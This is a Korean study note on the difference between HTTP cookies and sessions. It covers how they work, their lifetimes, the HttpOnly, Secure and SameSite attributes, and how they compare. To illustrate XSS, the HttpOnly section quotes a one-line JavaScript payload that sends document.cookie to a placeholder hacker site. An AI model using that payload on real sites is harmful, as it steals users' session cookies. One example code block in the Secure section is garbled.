


# Cookie vs Session

- HTTP는 상태가 없는 (Stateless) 프로토콜이기 때문에 사용자가 웹 브라우저를 통해서 특정 웹 사이트에 접속하게 될 경우 **어떤 사용자가 접속했는지에 대한 정보를 파악할 수 없다.** 따라서, 쿠키 또는 세션을 사용하여 **사용자를 구분하고 각 사용자에게 맞는 정보를 제공**한다.


### 1. Cookie

### 정의

- HTTTP 쿠키란 서버가 사용자의 웹 브라우저에 전송하는 **키와 값 형태의 작은 데이터 조각**
- 브라우저는 그 데이터 조각들을 저장해 놓았다가, 동일한 서버에 재 요청 시 저장된 데이터를 함께 전송한다.
- 쿠키는 두 요청이 동일한 브라우저에서 들어왔는지 아닌지를 판단할 때 주로 사용한다.
- 이를 이용하면 사용자의 로그인 상태를 유지할 수 있다. 상태가 없는 (stateless) HTTP 프로토콜에서 **상태 정보를 기억**시켜주기 때문이다.


### 사용 목적 (3가지)

- 세션 관리(Session management)

  - 서버에 저장해야 할 **로그인, 장바구니, 게임 스코어** 등의 정보 관리

- 개인화(Personalization)

  - **사용자 선호, 테마** 등의 세팅

- 트래킹(Tracking)

  - 사용자 **행동을 기록하고 분석**하는 용도

  

### 과거와 현재

- 과거엔 클라이언트 측에 정보를 저장할 때 **쿠키를 주로 사용**하곤 했다. 그때는 클라이언트 측에 데이터를 저장할 수 있는 **유일한 방법이고, 타당**했다.
- 지금은 modern storage APIs를 사용해 정보를 저장하는 것을 권장한다.
- 그 이유로는, 모든 요청마다 쿠키가 함께 전송되기 때문에 성능이 떨어질 수 있고, 보안상 취약하기 때문이다.
- 클라이언트 측에 데이터를 저장하려면 웹 스토리지 API(localStorage, sessionStorage)와 IndexedDB를 사용하면 된다.


### 동작 방식



1. 웹 브라우저가 서버에 요청

2. 서버는 상태를 유지하고 싶은 값을 쿠키(cookie)로 생성

   ```js
   // Set-Cookie: <cookie-name>=<cookie-value>
   Set-Cookie: id=doy
   ```

3. 서버가 응답할 때 HTTP 헤더(Set-Cookie)에 쿠키를 포함해서 전송

   ```js
   HTTP/1.0 200 OK
   Content-type: text/html
   Set-Cookie: id=doy
   
   [page content]
   ```

4. 전달받은 쿠키는 웹 브라우저에서 관리(저장)하고 있다가, 다음 요청 때 쿠키를 HTTP 헤더에 넣어서 서버에 요청

   ```js
   GET /sample_page.html HTTP/1.1
   Host: www.example.org
   Cookie: id=doy
   ```

5. 서버에서는 쿠키 정보를 읽어 이전 상태 정보를 확인 후 응답


### Session Cookie와 Persistent Cookie

- Session Cookie
  - 사용자가 사이트 탐색 시에 관련한 설정들과 선호 사항을 저장하는 **임시 쿠키 정도**로 생각하면 된다. 브라우저를 닫는 순간 삭제된다.
- Persistent Cookie
  - Session Cookie와 다르게 삭제되지 않고, 더 길게 유지된다. **디스크에 저장되며, 브라우저를 닫거나 컴퓨터를 재시작해도 남아있다.** 사용자 로그인 항상 유지와 같은 곳에 사용한다.
- 차이점
  - 파기시점 이외에는 차이점이 없다. Discard라는 파라미터가 설정되어 있거나, 파기까지 남은 시간인 Expires 또는 Max-Age라는 파라미터가 없으면 세션 쿠키이다.


### HttpOnly와 Secure

- **HttpOnly Cookie**

  - Document.cookie API와 같은 **자바스크립트로 Cookie를 조회하는 것을 막는** 옵션
  - Cookie는 클라이언트에서 자바스크립트로 조회할 수 있기 때문에, 해커들은 자바스크립트로 쿠키를 가로채고자 시도하게 된다. 가장 대표적인 공격 중 하나가 **Cross Site Scripting(XSS)**이다.

  ```
  location.href = '<http://해커사이트/?cookies=>' + document.cookie;
  ```

  - 해커가 위와 같은 게시물을 공개 게시판에 작성할 경우, 이 게시물을 읽은 다른 사용자는 알아차리기도 전에 자신의 모든 쿠키를 전송하게 된다.
  - 이러한 XSS 취약점을 해결하는 방법은 바로 **브라우저에서 쿠키에 접근할 수 없도록 제한**하는 것이다.
  - HttpOnly Cookie는 자바스크립트의 Document.cookie API에 접근할 수 없고, 서버에 전송되기만 한다. 이렇게 하면 **XSS와 같은 공격이 차단**되게 된다.

  ```
  Set-Cookie: id=a3fWa; HttpOnly
  ```

- **Secure Cookie**

  - 웹 브라우저와 웹 서버가 **HTTPS 프로토콜로 통신하는 경우에만** 웹 브라우저가 Cookie를 서버로 전송하는 옵션
  - Http Only Cookie를 사용하면 Client에서 JS를 통한 Cookie 탈취 문제를 해결할 수 있다. 하지만, JS가 아닌 네트워크를 직접 감청해서 Cookie를 가로챌 수도 있다. 미국의 NSA를 포함한 각국의 정보기관들이 Wifi 망 분석, ISP 케이블 감청을 통해 Cookie 등 개인 정보를 열람하고 있다는 사실은 더이상 비밀이 아니다.
  - 이러한 **통신상의 정보 유출을 막기 위해**, HTTPS 프로토콜을 사용하여 데이터를 **암호화하는 방법이 주로 사용**되고 있다. HTTPS를 사용하면 Cookie 또한 암호화되어 전송되기 때문에 제 3자는 내용을 알 수 없게 된다.
  - 문제는 HTTPS로 전송되어야 할 정보가 개발자의 부주의로 HTTP를 통해 유출되는 경우가 있다.

  ```
  " />
  ```

  - 브라우저는 http:// 로 시작되는 코드를 만나면 암호화되지 않은 상태로 Cookie를 서버로 전달하고 이때 해커는 그 쿠키를 탈취할 수 있다.
  - 이러한 사고를 방지하기 위해 Secure를 사용하는 것이다.
  - Secure Cookie는 HTTPS 프로토콜 상에서만 전송된다.

  ```
  Set-Cookie: id=a3fWa; Secure; HttpOnly
  ```


### SameSite Cookie

- **서로 다른 도메인 간의 Cookie 전송에 대한 보안**을 설정하는 속성
- SameSite Cookie는 Cookie가 cross-site 요청과 함께 전송되지 않았음을 요구하게 만들어, cross-site 요청 위조 공격 (CSRF)에 대해 어떤 보호 방법을 제공한다.
- SameSite Cookie는 여전히 실험 중이며, 모든 브라우저에 의해 아직 제공되지 않고 있다.


### 2. Session

### 정의

- Session이란 웹 사이트의 **여러 페이지에 걸쳐 사용되는 사용자 정보를 저장하는 방법**을 의미한다.
- 사용자가 **브라우저를 닫아 서버와의 연결을 끝내는 시점까지를 세션**이라고 한다.
- Cookie는 클라이언트 측의 컴퓨터에 모든 데이터를 저장한다. 반면, Session은 서비스가 돌아가는 **서버 측에 데이터를 저장**하고, **Session의 키값만을 클라이언트 측에 남겨둔다.** 브라우저는 필요할 떄 마다 이 키값을 이용해 서버에 저장된 데이터를 사용하게 된다.
- Session은 보안에 취약한 Cookie를 보완해주는 역할을 하고 있다.


### 사용 목적

- 민감한 정보 관리
- 사용자의 비밀번호 및 개인정보


### 동작 과정



1. 웹 브라우저가 서버에 요청

2. 서버가 해당 웹 브라우저에 유일한 ID(Session ID)를 부여해서 Cookie로 생성

3. 서버가 응답할 때 HTTP 헤더(Set-Cookie)에 Session ID를 포함해서 전송

   ```js
   Set-Cookie: JSESSIONID=xslei13f
   ```

4. 웹 브라우저는 이후 웹 브라우저를 닫기까지 다음 요청 때 부여된 Seesion ID가 담겨있는 Cookie를 HTTP 헤더에 넣어서 전송

   ```js
   Cookie: JSESSIONID=xslei13f
   ```

5. 서버는 Session ID를 확인하고, 해당 Session에 관련된 정보를 확인 후 응답


### 3. 차이점

- 저장 위치

  - 쿠키 : 클라이언트의 웹 브라우저가 지정하는 메모리 or 하드디스크
  - 세션 : 서버의 메모리에 저장

- 만료 시점

  - 쿠키 : 저장할 때 expires 속성을 정의해 무효화시키면 삭제될 날짜를 정할 수 있다.
  - 세션 : 클라이언트가 로그아웃하거나, 설정 시간 동안 반응이 없으면 무효화되기 때문에 정확한 시점을 알 수 없다.

- 리소스

  - 쿠키 : 클라이언트에 저장되고, 클라이언트의 메모리를 사용하기 때문에 서버 자원을 사용하지 않는다.
  - 세션 : 서버에 저장되고, 서버 메모리로 로딩되기 때문에 세션이 생길때마다 리소스를 차지한다.

- 용량 제한

  - 쿠키 : 클라이언트도 모르게 접속되는 사이트에 의하여 설정될 수 있기 때문에 쿠키로 인해 문제가 발생하는 걸 막고자 한 도메인 당 20개, 한 쿠키 당 4KB로 제한되어 있다.
  - 세션 : 서버가 제공할 수 있는 용량 크기만큼 저장할 수 있다.

- 보안

  - 쿠키 : 민감한 데이터를 스니핑당할 수 도 있기 떄문에 보안에 취약하다.

  - 세션 : 서버에서 민감한 데이터를 갖고 있기 때문에 비교적 보안이 좋다.

    

### 4. 복습 by 얄팍한 코딩사전

- 쿠키는 사이트를 방문하고 이용할 때 브라우저에 저장되는 내용들이다. 브라우저는 내 컴퓨터에 있는 것이니까 내가 갖고 있는 정보인 것이다.
- 쿠키에는 민감한 내용을 담을 수 없다. 내가 임의로 수정할 수 있고, 남이 탈취할 수 있다.
- 쿠키에서 관리하기 힘든 정보들은 세션에서 관리하고, 그 정보들이 각각 누구의 것인지 바코드로 구분한다.
- 세션을 사용하는 사이트에 접속하면 서버에서는 사용자를 구분하기 위한 기한이 짧은 임시 키 하나를 브라우저에 보내서 쿠키로 저장한다.
- 사용자의 중요한 정보들은 서버의 메모리나 DB에 저장된다. 브라우저가 이 사이트의 페이지들에 접속할 때마다 HTTP 요청에 키가 담긴 쿠키를 실어서 전송하고, 서버는 그 키를 보고 사용자가 누군지 인식해서, 그 사용자의 정보를 가공해서 응답으로 보내주는 것이다.
- 쿠키는 사용자의 편의를 위하되, 지워지거나 가로채여도 큰 일이 없을 그런 수준의 정보들을 브라우저에 저장하는 데 사용된다.
- 그리고 사용자나 다른 누군가에게 노출되어서는 안 되는, 서비스 제공자가 직접 관리해야 할 정보들은 세션으로 서버 안에서 다뤄지는 것이다.